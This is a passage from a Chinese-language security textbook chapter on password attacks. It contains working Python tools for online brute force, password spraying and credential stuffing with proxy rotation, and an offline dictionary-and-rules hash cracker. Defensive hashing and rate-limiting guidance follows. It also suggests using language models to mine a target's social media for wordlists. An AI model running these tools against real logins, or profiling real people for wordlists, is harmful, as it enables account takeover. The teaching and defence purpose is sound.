        credential_file 格式（每行一条）：
            username:password
            user@email.com:leaked_password
        """
        credentials = []
        with open(credential_file, 'r', encoding='utf-8', errors='ignore') as f:
            for line in f:
                line = line.strip()
                if ':' in line and not line.startswith('#'):
                    # 支持 email:password 和 user:password 格式
                    parts = line.split(':', 1)
                    if len(parts) == 2:
                        credentials.append((parts[0].strip(), parts[1].strip()))
        
        print(f"\n[*] 凭证填充模式")
        print(f"[*] 加载 {len(credentials):,} 条凭证记录")
        
        self.start_time = time.time()
        self.found = False
        
        with ThreadPoolExecutor(max_workers=self.threads) as executor:
            futures = []
            for username, password in credentials:
                if self.found:
                    break
                session = self._build_session()
                future = executor.submit(
                    self.try_login, session, username, password,
                    field_names=field_names)
                futures.append(future)
            
            for future in as_completed(futures):
                if self.found:
                    for f in futures:
                        f.cancel()
                    break
                future.result()
    
    def print_report(self):
        """输出攻击报告"""
        elapsed = time.time() - self.start_time
        rate = self.attempt_count / elapsed if elapsed > 0 else 0
        
        print("\n" + "=" * 60)
        print("  攻击报告")
        print("=" * 60)
        print(f"  总尝试次数:   {self.attempt_count:,}")
        print(f"  总耗时:       {elapsed:.1f} 秒")
        print(f"  平均速率:     {rate:.1f} 次/秒")
        print(f"  成功凭证:     {len(self.stats['success'])} 条")
        for user, pwd in self.stats['success']:
            print(f"    → {user} : {pwd}")
        print(f"  连接错误:     {self.stats['errors']}")
        print(f"  可能被限速:   {self.stats['rate_limited']}")
        print("=" * 60)


def main():
    parser = argparse.ArgumentParser(
        description='登录爆破工具 v2.0',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog="""
使用示例：
  # 标准模式
  %(prog)s -t http://target/login -u users.txt -p passes.txt -m standard

  # 密码喷洒（推荐用于企业目标）
  %(prog)s -t http://target/login -u users.txt -p common.txt -m spray

  # 凭证填充
  %(prog)s -t http://target/login -m stuffing --creds leaked.txt

  # 使用代理池
  %(prog)s -t http://target/login -u users.txt -p passes.txt --proxy proxies.txt
        """)
    parser.add_argument('-t', '--target', required=True,
                        help='目标登录URL')
    parser.add_argument('-u', '--userlist', help='用户名列表文件')
    parser.add_argument('-p', '--passlist', help='密码列表文件')
    parser.add_argument('-m', '--mode',
                        choices=['standard', 'spray', 'stuffing'],
                        default='standard', help='攻击模式（默认: standard）')
    parser.add_argument('--threads', type=int, default=10,
                        help='并发线程数（默认: 10）')
    parser.add_argument('--timeout', type=int, default=10,
                        help='请求超时秒数（默认: 10）')
    parser.add_argument('--rate-limit', type=float, default=0.1,
                        help='每请求最小间隔秒数（默认: 0.1）')
    parser.add_argument('--proxy', help='代理列表文件')
    parser.add_argument('--creds', help='凭证文件（stuffing 模式）')
    parser.add_argument('--json-fields', action='store_true',
                        help='使用 JSON 格式提交（默认: form）')
    parser.add_argument('--user-field', default='username',
                        help='用户名字段名（默认: username）')
    parser.add_argument('--pass-field', default='password',
                        help='密码字段名（默认: password）')
    
    args = parser.parse_args()
    
    # 加载代理列表
    proxy_list = []
    if args.proxy:
        with open(args.proxy, 'r') as f:
            proxy_list = [line.strip() for line in f if line.strip()]
        print(f"[+] 加载 {len(proxy_list)} 个代理")
    
    forcer = LoginBruteForcer(
        target_url=args.target,
        threads=args.threads,
        timeout=args.timeout,
        rate_limit=args.rate_limit,
        proxy_list=proxy_list
    )
    
    field_names = {'user': args.user_field, 'pass': args.pass_field}
    data_format = 'json' if args.json_fields else 'form'
    
    if args.mode == 'standard':
        if not args.userlist or not args.passlist:
            parser.error("标准模式需要 --userlist 和 --passlist")
        usernames = forcer.load_wordlist(args.userlist)
        passwords = forcer.load_wordlist(args.passlist)
        forcer.attack_standard(usernames, passwords, field_names)
    
    elif args.mode == 'spray':
        if not args.userlist or not args.passlist:
            parser.error("喷洒模式需要 --userlist 和 --passlist")
        usernames = forcer.load_wordlist(args.userlist)
        passwords = forcer.load_wordlist(args.passlist)
        forcer.attack_spray(passwords, usernames, field_names)
    
    elif args.mode == 'stuffing':
        if not args.creds:
            parser.error("凭证填充模式需要 --creds")
        forcer.attack_credential_stuffing(args.creds, field_names)
    
    forcer.print_report()


if __name__ == '__main__':
    main()
```

#### 密码喷洒 vs 标准爆破：为什么喷洒更有效



### 33.3.4 密码哈希破解器

当攻击者获取了数据库中的密码哈希值后，可以在离线环境中以极高速度进行破解。哈希破解是密码安全的终极考验——如果你的密码能被快速破解，说明它不够强。

#### 主流哈希破解工具对比

| 特性 | John the Ripper | Hashcat | 本节实现（教学） |
|------|-----------------|---------|------------------|
| GPU加速 | 支持（有限） | 原生支持，核心优势 | 不支持 |
| 哈希类型 | 300+ 种 | 300+ 种 | 常见 5 种 |
| 规则引擎 | 内置 + 自定义 | 内置 + 自定义 | 基础实现 |
| 分布式 | 支持 | 支持 | 不支持 |
| 隐蔽模式 | 支持 | 不支持 | 不支持 |
| 适用场景 | 通用密码审计 | 高性能离线破解 | 学习原理 |

#### 常见哈希算法的破解速度参考

这些数据来自 Hashcat 官方基准测试（NVIDIA RTX 4090），展示了 GPU 加速的恐怖威力：

| 哈希算法 | 每秒尝试次数 | 8位全字符穷举所需时间 |
|----------|-------------|----------------------|
| MD5 | ~164 GH/s（1640亿） | **< 1 秒** |
| SHA-1 | ~54 GH/s（540亿） | **< 2 秒** |
| SHA-256 | ~22 GH/s（220亿） | **< 5 秒** |
| bcrypt | ~184 kH/s（18.4万） | **约 9 天** |
| Argon2 | ~3 kH/s（3000） | **约 85 年** |

> **注**：GH/s = Giga Hash per second，即每秒十亿次哈希计算。数据截至2024年，实际速度因硬件配置而异。

这组数据清楚地说明了为什么 bcrypt/Argon2 是推荐的密码哈希算法——在相同硬件上，它们比 MD5 慢约 **100万倍**。

#### 完整实现

```python
#!/usr/bin/env python3
"""
密码哈希破解器 v2.0
支持 MD5/SHA1/SHA256/bcrypt 的离线字典+规则攻击
"""

import hashlib
import argparse
import time
import os
from itertools import product


class HashCracker:
    """
    密码哈希离线破解器
    
    支持两种攻击模式：
    1. 字典模式：逐条尝试字典中的密码
    2. 规则模式：对字典中的每个密码应用规则变换后再尝试
    
    支持的哈希算法：
    - MD5、SHA1、SHA256（快速算法，易被GPU破解）
    - bcrypt（慢速算法，需要 bcrypt 库）
    """
    
    # 支持的哈希算法及其前缀标识
    SUPPORTED_ALGORITHMS = {
        'md5':    {'hashlib': 'md5',    'length': 32, 'prefix': ''},
        'sha1':   {'hashlib': 'sha1',   'length': 40, 'prefix': ''},
        'sha256': {'hashlib': 'sha256', 'length': 64, 'prefix': ''},
        'bcrypt': {'hashlib': None,     'length': 60, 'prefix': '$2b$'},
    }
    
    def __init__(self, hash_value, algorithm=None):
        """
        参数：
            hash_value: 目标哈希值（字符串）
            algorithm: 哈希算法名称，如不指定则自动识别
        """
        self.hash_value = hash_value.strip().lower()
        self.algorithm = algorithm or self._detect_algorithm()
        self.attempt_count = 0
        self.start_time = None
        
        if self.algorithm not in self.SUPPORTED_ALGORITHMS:
            raise ValueError(f"不支持的算法: {self.algorithm}。"
                             f"支持: {list(self.SUPPORTED_ALGORITHMS.keys())}")
    
    def _detect_algorithm(self):
        """根据哈希值的长度和格式自动识别算法类型"""
        h = self.hash_value
        
        # bcrypt 有特殊格式：$2b$... 或 $2a$...
        if h.startswith('$2b$') or h.startswith('$2a$'):
            return 'bcrypt'
        
        # 根据长度判断
        length = len(h)
        if length == 32:
            return 'md5'
        elif length == 40:
            return 'sha1'
        elif length == 64:
            return 'sha256'
        else:
            raise ValueError(f"无法自动识别算法（哈希长度={length}），"
                             f"请使用 --algorithm 手动指定")
    
    def _hash_password(self, password):
        """
        计算密码的哈希值。
        
        对于标准哈希算法，直接使用 hashlib。
        对于 bcrypt，使用 bcrypt 库（需要额外安装）。
        """
        if self.algorithm == 'bcrypt':
            try:
                import bcrypt
                # bcrypt.checkpw 需要字节类型，且自动处理盐值
                return bcrypt.checkpw(
                    password.encode('utf-8'),
                    self.hash_value.encode('utf-8')
                )
            except ImportError:
                raise ImportError("bcrypt 算法需要安装 bcrypt 库: "
                                  "pip install bcrypt")
        
        # 标准哈希算法
        algo_info = self.SUPPORTED_ALGORITHMS[self.algorithm]
        h = hashlib.new(algo_info['hashlib'])
        h.update(password.encode('utf-8'))
        return h.hexdigest()
    
    def crack_single(self, password):
        """
        尝试单个密码。
        
        返回：匹配成功返回 True，否则返回 False。
        """
        self.attempt_count += 1
        
        if self.algorithm == 'bcrypt':
            return self._hash_password(password)
        
        return self._hash_password(password) == self.hash_value
    
    def crack_dict(self, wordlist_path, show_progress=True):
        """
        字典攻击：逐条尝试字典文件中的密码。
        
        这是最基础的攻击方式，效率取决于字典质量和目标密码的强度。
        如果字典中包含目标密码，命中率为 100%。
        """
        self.start_time = time.time()
        
        # 读取字典文件
        with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
            passwords = [line.strip() for line in f if line.strip()]
        
        print(f"[*] 目标哈希: {self.hash_value}")
        print(f"[*] 算法类型: {self.algorithm.upper()}")
        print(f"[*] 字典大小: {len(passwords):,} 条")
        print(f"[*] 开始破解...\n")
        
        for password in passwords:
            if self.crack_single(password):
                elapsed = time.time() - self.start_time
                print(f"\n{'=' * 50}")
                print(f"  [+] 破解成功！")
                print(f"  密码:   {password}")
                print(f"  用时:   {elapsed:.2f} 秒")
                print(f"  尝试次数: {self.attempt_count:,}")
                print(f"{'=' * 50}")
                return password
            
            if show_progress and self.attempt_count % 10000 == 0:
                elapsed = time.time() - self.start_time
                rate = self.attempt_count / elapsed if elapsed > 0 else 0
                print(f"\r[*] 已尝试 {self.attempt_count:,} "
                      f"({rate:,.0f} 次/秒)", end='', flush=True)
        
        elapsed = time.time() - self.start_time
        print(f"\n\n[-] 字典攻击完成，未找到匹配。"
              f"共尝试 {self.attempt_count:,} 次，耗时 {elapsed:.2f} 秒")
        return None
    
    def crack_rules(self, wordlist_path, max_rules_per_word=50,
                    show_progress=True):
        """
        规则攻击：对字典中的每个密码应用变换规则后尝试。
        
        规则引擎是密码破解的核心竞争力。现实中，人们很少直接使用
        字典中的原始单词作为密码，而是会进行各种"创造性"的变换：
        - 首字母大写（password → Password）
        - 添加数字后缀（password → password123）
        - Leet Speak 替换（password → p@ssw0rd）
        - 翻转（password → drowssap）
        
        John the Ripper 的规则语法（本节实现了常见规则的子集）：
        - "l" = 转小写, "u" = 转大写
        - "c" = 首字母大写
        - "$X" = 末尾添加字符X
        - "sa@" = 将 'a' 替换为 '@'
        - "r" = 翻转
        """
        self.start_time = time.time()
        
        with open(wordlist_path, 'r', encoding='utf-8', errors='ignore') as f:
            passwords = [line.strip() for line in f if line.strip()]
        
        print(f"[*] 目标哈希: {self.hash_value}")
        print(f"[*] 算法类型: {self.algorithm.upper()}")
        print(f"[*] 字典大小: {len(passwords):,} 条")
        print(f"[*] 规则攻击模式\n")
        
        # 定义变换规则
        rules = self._build_rule_set()
        
        for password in passwords:
            # 首先尝试原始密码
            if self.crack_single(password):
                self._report_success(password, "原始密码")
                return password
            
            # 应用每条规则
            for rule_name, rule_func in rules:
                try:
                    variant = rule_func(password)
                    if variant and variant != password:
                        if self.crack_single(variant):
                            self._report_success(variant, f"规则: {rule_name}")
                            return variant
                except Exception:
                    continue  # 跳过异常的规则应用
            
            if show_progress and self.attempt_count % 10000 == 0:
                elapsed = time.time() - self.start_time
                rate = self.attempt_count / elapsed if elapsed > 0 else 0
                print(f"\r[*] 已尝试 {self.attempt_count:,} "
                      f"({rate:,.0f} 次/秒)", end='', flush=True)
        
        elapsed = time.time() - self.start_time
        print(f"\n\n[-] 规则攻击完成，未找到匹配。"
              f"共尝试 {self.attempt_count:,} 次，耗时 {elapsed:.2f} 秒")
        return None
    
    def _build_rule_set(self):
        """
        构建规则集。
        
        这些规则模拟了真实用户创建密码时的习惯。根据 security.org
        2023年调查，最常见的密码变换模式包括：
        1. 首字母大写（约 40% 的用户）
        2. 添加数字 1 或 123（约 30%）
        3. 添加感叹号（约 20%）
        4. Leet Speak 替换（约 15%）
        """
        leet_map = {
            'a': '@', 'e': '3', 'i': '1', 'o': '0',
            's': '$', 't': '7', 'l': '1', 'b': '8',
        }
        
        rules = [
            # ── 基础变换 ──
            ("小写", lambda w: w.lower()),
            ("大写", lambda w: w.upper()),
            ("首字母大写", lambda w: w.capitalize()),
            ("翻转", lambda w: w[::-1]),
            
            # ── 数字追加 ──
            ("追加1", lambda w: w + '1'),
            ("追加12", lambda w: w + '12'),
            ("追加123", lambda w: w + '123'),
            ("追加1234", lambda w: w + '1234'),
            ("追加01", lambda w: w + '01'),
            ("追加666", lambda w: w + '666'),
            ("追加007", lambda w: w + '007'),
            ("追加年份", lambda w: w + '2024'),
            ("追加年份短", lambda w: w + '24'),
            
            # ── 特殊字符追加 ──
            ("追加!", lambda w: w + '!'),
            ("追加!@", lambda w: w + '!@'),
            ("追加!@#", lambda w: w + '!@#'),
            ("追加#", lambda w: w + '#'),
            ("追加$", lambda w: w + '$'),
            
            # ── 组合追加 ──
            ("追加1!", lambda w: w + '1!'),
            ("追加123!", lambda w: w + '123!'),
            ("追加!123", lambda w: w + '!123'),
            ("追加@123", lambda w: w + '@123'),
            ("大写+123", lambda w: w.upper() + '123'),
            ("首大+!", lambda w: w.capitalize() + '!'),
            ("首大+1", lambda w: w.capitalize() + '1'),
            ("首大+123", lambda w: w.capitalize() + '123'),
            
            # ── Leet Speak 替换 ──
            ("Leet全替换", lambda w: ''.join(
                leet_map.get(c, c) for c in w.lower())),
            ("Leet首字母大写", lambda w: w.capitalize()[0] + ''.join(
                leet_map.get(c, c) for c in w.lower()[1:])),
        ]
        
        # 追加单字符 Leet 替换（只替换一个字符）
        for char, replacement in leet_map.items():
            def make_leet_rule(ch, rp):
                return lambda w: w.replace(ch, rp) if ch in w.lower() else None
            rules.append(
                (f"替换{char}→{replacement}", make_leet_rule(char, replacement)))
        
        return rules
    
    def _report_success(self, password, method):
        """输出破解成功报告"""
        elapsed = time.time() - self.start_time
        print(f"\n{'=' * 50}")
        print(f"  [+] 破解成功！")
        print(f"  密码:   {password}")
        print(f"  方法:   {method}")
        print(f"  用时:   {elapsed:.2f} 秒")
        print(f"  尝试次数: {self.attempt_count:,}")
        print(f"{'=' * 50}")


def generate_sample_hashes():
    """
    生成一组示例哈希值，用于教学演示。
    
    这些密码都是弱密码，仅用于测试工具功能。
    """
    samples = [
        ("password",  "MD5"),
        ("admin123",  "SHA256"),
        ("qwerty",    "SHA1"),
        ("letmein",   "MD5"),
        ("12345678",  "SHA256"),
    ]
    
    print("\n  示例密码 → 哈希值")
    print("  " + "-" * 50)
    for password, algo in samples:
        if algo == "MD5":
            h = hashlib.md5(password.encode()).hexdigest()
        elif algo == "SHA1":
            h = hashlib.sha1(password.encode()).hexdigest()
        elif algo == "SHA256":
            h = hashlib.sha256(password.encode()).hexdigest()
        print(f"  {password:15s} → {algo:6s} → {h}")
    print()


def main():
    parser = argparse.ArgumentParser(
        description='密码哈希破解器 v2.0',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog="""
使用示例：
  # 字典攻击
  %(prog)s -t 5f4dcc3b5aa765d61d8327deb882cf99 -m dict -w wordlist.txt

  # 规则攻击
  %(prog)s -t 5f4dcc3b5aa765d61d8327deb882cf99 -m rules -w wordlist.txt

  # 指定算法（可选，默认自动识别）
  %(prog)s -t 5f4dcc3b5aa765d61d8327deb882cf99 -a md5 -m dict -w wordlist.txt

  # 查看示例哈希
  %(prog)s --demo
        """)
    parser.add_argument('-t', '--target', help='目标哈希值')
    parser.add_argument('-m', '--mode', choices=['dict', 'rules'],
                        default='dict', help='攻击模式（默认: dict）')
    parser.add_argument('-w', '--wordlist', help='密码字典文件')
    parser.add_argument('-a', '--algorithm',
                        choices=['md5', 'sha1', 'sha256', 'bcrypt'],
                        help='哈希算法（默认: 自动检测）')
    parser.add_argument('--demo', action='store_true',
                        help='显示示例哈希值（用于测试）')
    
    args = parser.parse_args()
    
    if args.demo:
        generate_sample_hashes()
        return
    
    if not args.target:
        parser.error("请提供目标哈希值 (--target) 或使用 --demo 查看示例")
    
    cracker = HashCracker(args.target, args.algorithm)
    
    if args.mode == 'dict':
        if not args.wordlist:
            parser.error("字典模式需要 --wordlist 参数")
        cracker.crack_dict(args.wordlist)
    elif args.mode == 'rules':
        if not args.wordlist:
            parser.error("规则模式需要 --wordlist 参数")
        cracker.crack_rules(args.wordlist)


if __name__ == '__main__':
    main()
```

### 33.3.5 防御策略与安全加固

了解攻击手段的最终目的是构建防御。以下是针对密码攻击的系统性防御方案：

#### 密码存储安全

| 防御措施 | 实施方法 | 防御效果 |
|----------|----------|----------|
| 使用慢速哈希 | bcrypt（cost=12）或 Argon2id | 将离线破解速度降低100万倍 |
| 独立盐值 | 每个密码使用随机16字节盐 | 消除彩虹表攻击，阻止批量破解 |
| 密码哈希-pepper | 在哈希前添加服务器端密钥 | 即使数据库泄露也无法离线破解 |
| 密码策略 | 最少12位，混合字符类型 | 增大暴力搜索空间 |
| 检查泄露库 | 集成 Have I Been Pwned API | 在用户设置密码时拦截已泄露密码 |

**Argon2id 推荐配置**（OWASP 2024 指南）：

```python
import argon2

# 推荐的 Argon2id 参数
hasher = argon2.PasswordHasher(
    time_cost=3,        # 迭代次数（秒级计算开销）
    memory_cost=65536,  # 内存使用 64MB
    parallelism=4,      # 并行线程数
    hash_len=32,        # 输出哈希长度
    salt_len=16,        # 盐值长度
    type=argon2.Type.ID  # Argon2id（推荐）
)
```

#### 在线攻击防御

| 防御措施 | 实施方法 | 原理 |
|----------|----------|------|
| 速率限制 | 每IP每分钟最多10次登录尝试 | 大幅降低在线爆破速度 |
| 账户锁定 | 连续5次失败后锁定15分钟 | 阻止标准爆破攻击 |
| 渐进延迟 | 每次失败后等待时间翻倍（1s→2s→4s→8s） | 不锁定账户也能有效减速 |
| CAPTCHA | 失败3次后弹出验证码 | 区分人和自动化工具 |
| IP信誉库 | 集成IP黑名单（VPN/Tor出口节点） | 拦截匿名来源的攻击 |
| 双因素认证 | TOTP/SMS/硬件密钥 | 即使密码泄露也无法登录 |
| 密码喷洒检测 | 监测同一密码在多个账户上的失败 | 检测隐蔽的喷洒攻击 |

**渐进延迟的实现**：

```python
import time
import math
from collections import defaultdict

class RateLimiter:
    """
    渐进式速率限制器。
    
    策略：每次失败登录后，等待时间按指数增长。
    第1次失败：0秒, 第2次：1秒, 第3次：2秒, 第4次：4秒...
    最大等待时间：300秒（5分钟）
    
    这种策略的优势：
    - 合法用户输错密码后重试等待时间可接受
    - 攻击者的尝试速度被指数级降低
    - 不需要锁定账户，用户体验更好
    """
    
    def __init__(self, max_wait=300, base_delay=1):
        self.failures = defaultdict(int)  # {identifier: fail_count}
        self.max_wait = max_wait
        self.base_delay = base_delay
    
    def on_failure(self, identifier):
        """记录一次失败，返回需要等待的秒数"""
        self.failures[identifier] += 1
        delay = min(self.base_delay * (2 ** (self.failures[identifier] - 1)),
                    self.max_wait)
        return delay
    
    def on_success(self, identifier):
        """成功后重置失败计数"""
        self.failures[identifier] = 0
    
    def get_wait_time(self, identifier):
        """获取当前需要等待的秒数"""
        if self.failures[identifier] == 0:
            return 0
        return min(self.base_delay * (2 ** (self.failures[identifier] - 1)),
                   self.max_wait)
```

#### 密码策略的正确制定

NIST SP 800-63B（2024版）对密码策略的建议已经从传统的"强制大小写+数字+特殊字符"转向了更注重**密码长度**的策略：

| 旧标准（已被NIST淘汰） | 新标准（NIST 2024） |
|------------------------|---------------------|
| 强制8位以上 | 最少8位，推荐12位以上 |
| 强制包含大写+数字+特殊字符 | 不强制字符类型组合 |
| 强制90天更换密码 | 仅在泄露时强制更换 |
| 禁止使用字典单词 | 检查已泄露密码库 |

**核心理念转变**：密码长度比密码复杂度更重要。一个 20 位的纯小写字母随机密码（26^20 ≈ 2×10^28）比一个 8 位的混合字符密码（95^8 ≈ 6.6×10^15）安全得多。

### 33.3.6 工具开发的最佳实践

#### 代码质量清单

开发安全工具时，以下清单帮助确保代码质量和安全性：

```mermaid
graph TD
    A["安全工具开发<br/>最佳实践"] --> B["代码质量"]
    A --> C["安全性"]
    A --> D["可用性"]
    A --> E["可维护性"]
    
    B --> B1["类型注解（Type Hints）"]
    B --> B2["异常处理（不要吞异常）"]
    B --> B3["日志记录（替代print）"]
    B --> B4["单元测试覆盖核心逻辑"]
    
    C --> C1["输入验证（防注入）"]
    C --> C2["凭证不明文存储"]
    C --> C3["代理/VPN保护自身IP"]
    C --> C4["日志脱敏（不记录密码明文）"]
    
    D --> D1["进度显示"]
    D --> D2["断点续传（大字典中断恢复）"]
    D --> D3["结果持久化"]
    D --> D4["彩色终端输出"]
    
    E --> E1["模块化架构"]
    E --> E2["插件式哈希算法支持"]
    E --> E3["配置文件支持"]
    E --> E4["完整的 CLI 帮助文档"]
    
    style A fill:#E91E63,stroke:#333,color:#fff
    style B fill:#4CAF50,stroke:#333,color:#fff
    style C fill:#2196F3,stroke:#333,color:#fff
    style D fill:#FF9800,stroke:#333,color:#fff
    style E fill:#9C27B0,stroke:#333,color:#fff
```



#### 常见开发误区

| 误区 | 问题描述 | 正确做法 |
|------|----------|----------|
| 明文记录密码 | 调试时 print(password) 到日志 | 始终对输出进行脱敏处理 |
| 无限重试 | 网络异常时无限循环重试 | 设置最大重试次数和退避策略 |
| 忽略超时 | 没有设置请求超时 | 所有网络请求必须设置 timeout |
| 全量加载 | 将GB级字典全部读入内存 | 使用迭代器逐行读取 |
| 硬编码目标 | URL/字段名写死在代码中 | 通过参数或配置文件传入 |
| 忽略法律 | 在未授权目标上测试 | 始终确认授权，记录授权范围 |
| 单线程执行 | 只用主线程，效率极低 | 合理使用线程池/异步IO |
| 无进度反馈 | 大字典运行时无输出 | 显示进度条/计数器/速率 |

### 33.3.7 实验与验证

#### 快速验证环境搭建

使用 Docker 在 30 秒内搭建一个包含弱密码的测试环境：

```bash
# 启动一个带默认密码的 MySQL 容器
docker run -d --name mysql-test \
  -e MYSQL_ROOT_PASSWORD=root123 \
  -e MYSQL_DATABASE=testdb \
  -p 3307:3306 \
  mysql:8.0

# 验证连接
mysql -h 127.0.0.1 -P 3307 -u root -proot123 -e "SELECT '连接成功'"

# 创建一个带弱密码的测试用户
docker exec mysql-test mysql -uroot -proot123 -e \
  "CREATE USER 'testuser'@'%' IDENTIFIED BY 'password123'; \
   GRANT ALL ON testdb.* TO 'testuser'@'%';"

# 用本节工具验证破解能力
python3 hash_cracker.py -t $(echo -n 'password123' | md5sum | cut -d' ' -f1) \
  -m dict -w /usr/share/wordlists/rockyou.txt
```

#### 验证清单

完成本节学习后，对照以下清单验证掌握程度：

- [ ] 能解释 MD5、SHA256、bcrypt 三种哈希算法在密码存储中的安全性差异
- [ ] 能使用字典生成器生成 5 种不同策略的密码字典
- [ ] 能根据目标信息构建个人信息定向字典
- [ ] 能区分标准爆破、密码喷洒、凭证填充三种在线攻击模式的适用场景
- [ ] 能使用哈希破解器成功破解 MD5/SHA256 编码的弱密码
- [ ] 能描述规则引擎的工作原理并编写自定义变换规则
- [ ] 能列举至少 5 种防御密码攻击的措施及其原理
- [ ] 理解 NIST SP 800-63B 对密码策略的最新建议

### 33.3.8 进阶方向

完成本节基础内容后，以下方向可供深入探索：

**GPU 加速破解**：学习 CUDA/OpenCL 编程，利用显卡数千个核心并行计算哈希值。Hashcat 的核心优势就在于此——RTX 4090 对 MD5 的破解速度达到每秒 1640 亿次，是 CPU 的数千倍。

**分布式破解**：将字典分片分配到多台机器并行计算，再汇总结果。Hashcat 支持通过 hashcat-utils 的 cluster 模式实现分布式。

**密码策略审计工具**：开发一个能评估组织整体密码强度的工具——分析 Active Directory 密码哈希，统计弱密码比例、最常用密码 Top 10、密码年龄分布等。

**AI 辅助密码生成**：使用 GPT 等大语言模型分析目标的社交媒体，自动生成更精准的个人信息定向字典。这是密码破解领域的前沿方向。

**安全的密码管理**：深入研究密码管理器（如 Bitwarden、1Password）的架构设计，理解端到端加密、零知识证明等技术如何保护密码安全。
